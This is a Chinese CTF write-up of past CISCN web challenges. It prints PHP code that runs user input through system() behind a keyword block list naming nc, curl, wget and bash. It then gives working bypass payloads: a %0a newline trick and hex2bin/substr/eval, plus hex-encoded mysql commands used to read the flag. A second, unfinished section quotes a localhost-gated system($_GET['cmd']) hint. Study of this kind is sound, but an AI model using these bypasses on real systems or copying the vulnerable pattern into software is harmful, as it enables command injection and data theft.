

# ciscn-Web往年题目

## simple_php


打开直接就是源码分析

```php
<?php
ini_set('open_basedir', '/var/www/html/');
error_reporting(0);

if(isset($_POST['cmd'])){
    $cmd = escapeshellcmd($_POST['cmd']); 
     if (!preg_match('/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|date|bash|env|\?|wget|\'|\"|id|whoami/i', $cmd)) {
         system($cmd);
}
}


show_source(__FILE__);
?>
```


那就直接看


这个就是POST一个cmd上去，然后有很多滤过，基本上常规的能想到的都滤过了


还有一个escapeshellcmd函数，这个函数会给除`@:-+=` 等符号前添加`\` ，能够一定程度上防shell

1. 直接 `%0a` 绕过

2. 使用hex2bin和substr


hex2bin就是转换十六进制字符串为二进制字符串

这样是可行的，然后可以使用


命令：

```
system('ls /');
```

然后bin2hex，后续过程省略

```
73797374656d28276c73202f27293b
```

然后不能直接放，因为它也过滤了单引号和双引号，所以使用substr来进行字符串化

```
cmd=php -r eval(hex2bin(substr(h73797374656d28276c73202f27293b,1)));
```

然后出来




没发现`/flag`

然后发现开启了mysql服务，web题目的flag也有可能放在mysql里面，遂进去查看。

```
echo `mysql -u root -p'root' -e 'show databases;'`;
6563686f20606d7973716c202d7520726f6f74202d7027726f6f7427202d65202773686f77206461746162617365733b27603b
```


发现：

```
Database PHP_CMS information_schema mysql
```


然后查嘛

```
echo `mysql -u root -p'root' -e 'use PHP_CMS;show tables;'`;
6563686f20606d7973716c202d7520726f6f74202d7027726f6f7427202d652027757365205048505f434d533b73686f77207461626c65733b27603b
```


发现表：

```
Tables_in_PHP_CMS F1ag_Se3Re7
```


然后继续查：

```
echo `mysql -u root -p'root' -e 'select * from PHP_CMS.F1ag_Se3Re7;'`;
6563686f20606d7973716c202d7520726f6f74202d7027726f6f7427202d65202773656c656374202a2066726f6d205048505f434d532e463161675f5365335265373b27603b
```


发现flag：

```
ctfshow{ce8a87cf-6fcc-48c9-bbe7-fcbe096acece} 
```


综上：学习和复习点

- mysql的用法

```
mysql -u root -p'root' -e '语句'
```

- echo的用法

```
echo `shell语句`;
```

- 简单的php利用

```
php -r php语句;
```

- hex2bin和substr综合利用


## easycms


上来就给一个提示了，不知道当时比赛的时候是不是直接给的，还是分时放的。

题目：

```
简单的cms，可以扫扫看？ 提示1： /flag.php： 

if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
   echo "Just input 'cmd' From 127.0.0.1";
   return;
}else{
   system($_GET['cmd']);
}
提示2：github找一下源码?
```


直奔第一个提示：

```
Warning: file_put_contents(2.txt): failed to open stream: Permission denied in /var/www/html/flag.php on line 2
Just input 'cmd' From 127.0.0.1
```


不好评价

然后给出源码提示：

```php
if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
   echo "Just input 'cmd' From 127.0.0.1";
   return;
}else{
   system($_GET['cmd']);
}
```


反弹shell

没学到，pass